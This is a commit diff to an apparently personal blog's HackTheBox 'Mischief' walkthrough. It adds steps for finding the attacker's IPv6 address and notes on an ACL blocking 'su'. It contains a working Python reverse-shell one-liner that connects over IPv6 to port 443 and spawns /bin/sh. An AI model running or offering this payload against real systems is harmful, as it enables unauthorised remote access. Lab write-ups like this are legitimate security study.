

Before and after one commit to 1n4r1/1n4r1.github.io, a Jekyll site: the page built from _posts/2019-11-21-Hackthebox-Mischief-Walkthrough.md, in a window 1280 px wide and 900 px high, scrolled down 9240 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; some of the changed text lies outside the part shown.

Commit message:
add mischief-walkthrough

```diff
--- a/_posts/2019-11-21-Hackthebox-Mischief-Walkthrough.md
+++ b/_posts/2019-11-21-Hackthebox-Mischief-Walkthrough.md
@@ -248,9 +248,17 @@ Ncat: Listening on :::1234
 
 Then, try to invoke a reverse shell.<br>
 We can use a python reverse shell from <a href="http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Pentestmonkey</a>.<br>
-However, this time we have to use IPv6 and we need some modifications for that.
+<br>
+At first, we have to figure out global IPv6 address of our host
+{% highlight shell %}
+root@kali:~#  ip a | grep inet6 | grep global
+    inet6 dead:beef:2::100b/64 scope global
 
-#### python payload:
+root@kali:~#
+{% endhighlight %}
+
+Then, give some modification for the given python payload and execute.
+#### python payload used:
 {% highlight shell %}
 python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::100b",443,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");';
 {% endhighlight %}
@@ -333,7 +341,18 @@ exit
 loki@Mischief:~$
 {% endhighlight %}
 
-The user "loki" can't use a command "su".<br>
+
+We can find an interesting thing that user "loki" can't use a command "su" due to its permission.
+{% highlight shell %}
+loki@Mischief:~$ su root
+-bash: /bin/su: Permission denied
+
+loki@Mischief:~$ ls -l /bin/su
+-rwsr-xr-x+ 1 root root 44664 Jan 25  2018 /bin/su
+
+loki@Mischief:~$
+{% endhighlight %}
+
 This is because <a href="https://wiki.archlinux.org/index.php/Access_Control_Lists">Access Control List</a> doesn't allow user "loki" to execute the command.<br>
 We can confirm that with "getfacl" command.
 {% highlight shell %}
```
